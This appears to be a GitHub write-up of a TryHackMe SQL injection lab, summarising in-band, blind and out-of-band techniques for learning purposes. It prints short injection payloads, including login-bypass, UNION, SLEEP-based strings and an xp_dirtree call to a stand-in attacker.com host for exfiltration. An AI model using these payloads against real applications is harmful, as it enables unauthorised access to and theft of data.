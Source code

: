 # SQL Injection (TryHackMe)

🔗 Room Name: SQL Injection  
🧠 Difficulty: Medium  
📁 Category: Web Exploitation

---

## 📝 Overview

This room provides a comprehensive introduction to different types of **SQL injection (SQLi)** attacks. It explores both in-band and blind SQLi techniques, teaching how to extract sensitive data from vulnerable web applications.

---

## 🛠️ Tools & Techniques Used

- In-Band SQL Injection  
- Blind SQL Injection – Authentication Bypass  
- Blind SQL Injection – Boolean-Based  
- Blind SQL Injection – Time-Based  
- Out-of-Band (OOB) SQL Injection

---

## 🧪 Learning Objectives

- Understand how SQL queries can be manipulated through input fields  
- Perform authentication bypasses via SQL injection  
- Enumerate databases, tables, and columns using different SQLi techniques  
- Identify blind SQL injection vulnerabilities using logic and timing  
- Grasp the concept of out-of-band data exfiltration in rare SQLi scenarios

---

## 🔍 Key Techniques Practised

### ✅ In-Band SQL Injection

Basic injection using error messages or output display:

```sql
' OR '1'='1
' UNION SELECT null, version()--

✅ Blind SQLi – Authentication Bypass
Bypass login using conditional logic:
' OR 1=1--

✅ Blind SQLi – Boolean-Based
Infer true/false conditions by observing response behaviour:
' AND 1=1--     -- True
' AND 1=2--     -- False

✅ Blind SQLi – Time-Based
Use SQL sleep/delay functions to infer data:

' OR IF(1=1, SLEEP(5), 0)--

✅ Out-of-Band SQLi
Trigger DNS or HTTP-based interactions for data exfiltration (less common):
'; EXEC xp_dirtree('//attacker.com/share')--

🎯 Key Takeaways
SQL injection remains a critical web vulnerability and is often easy to test for.

Blind SQLi requires creative logic and careful analysis of the application’s behaviour.

Out-of-band techniques are powerful but rely on specific database configurations and network conditions.

Input validation and parameterised queries are essential for preventing SQLi.

⚠️ Ethical Notice
This write-up is for educational purposes only. It respects the rules of TryHackMe and does not reveal solutions or flags.



